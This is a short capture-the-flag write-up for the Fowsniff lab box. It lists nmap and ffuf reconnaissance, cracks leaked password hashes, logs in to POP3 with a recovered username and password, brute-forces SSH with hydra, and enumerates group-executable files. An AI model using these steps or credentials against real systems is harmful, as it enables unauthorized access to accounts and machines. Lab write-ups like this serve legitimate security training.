





# Fowsniff CTF

I cannot ping it but I found a website there so I started `nmap` scan without ping.
```
nmap -Pn fowsniff.thm
```

<br>

```
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://fowsniff.thm/FUZZ -c -t 200
```
<br>

<hr>

Nmap found a couple of open ports. Let's explore them.
```
nmap -sC -sV -Pn -p22,80,110,143 fowsniff.thm
```
<hr>

I google the fowsniff and found their twitter, where I found the password dump, I put the hashes into `hash cracker` and got this.<br>

```
[+] 10.10.128.253:110     - 10.10.128.253:110 - Success: 'seina:scoobydoo2' '+OK Logged in.'
```

### pop3
```
telnet fowsniff.thm 110
USER seina
PASS scoobydoo2

retr 1
retr 2
```


`S1ck3nBluff+secureshell`
<hr>

```
hydra -L users.txt -P passwords.txt ssh://fowsniff.thm -t 20
```



I connected via `ssh` and did:<br>
```
groups
# Found myself in the users group

# to find which files the group can execute
find / -type f -executable -group users 2>/dev/null
/opt/cube/cube.sh
```
